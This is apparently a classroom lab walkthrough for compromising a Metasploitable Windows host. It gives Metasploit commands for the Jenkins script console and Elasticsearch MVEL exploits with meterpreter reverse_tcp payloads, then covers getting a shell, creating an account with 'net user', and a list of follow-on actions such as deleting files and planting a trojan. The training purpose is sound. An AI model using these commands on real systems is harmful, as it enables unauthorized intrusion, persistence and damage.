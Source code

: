 This is the command you use to set the host you are going to run the exploit against once you locate it on your network

`set rhosts xxx.xx.xxx.xxx`

`use exploit/multi/http/jenkins_script_console`

`set RPORT 8484`

`set TARGETURI /`

`set RHOST xxx.xxx.xxxx.xxx` (This is the IP of your target)

`set PAYLOAD windows/meterpreter/reverse_tcp'

Starts the exploit against the system you specified with the set rhost command.

`exploit`

If your exploit is successful you should get a meterpreter prompt where you can run remote commands on the Windows host. If you type in the following command it will tell you which level of context your account is running as

`getuid`

If you cannot gain elevated priviliges using the Jenkins backdoor then try this exploit

`use exploit/multi/elasticsearch/script_mvel_rce`

What options do you need to pay attention to when using this exploit?

Hint: for the PAYLOAD you should use the java/meterpreter/reverse_tcp

When you have a meterpreter prompt type in the following command

`getuid` (This will tell you which user or service account you are running as)

`shell` (this command will drop you into the windows command shell)

Now research what commands you can run under windows to create an account that will allow you to login to your Metasploitable Windows host.

*** Hint the command is `net user`***

### Create, Elevate & Gain access

Connect to a remote or local system via rdp with a named account that you know the password to

### Now What?

Add additional accounts

Search the system for sensitive data

Delete files

Change data on system or services running on the system

Plant a virus or trojan

Attack other systems from this system

### Why is this exercise important?
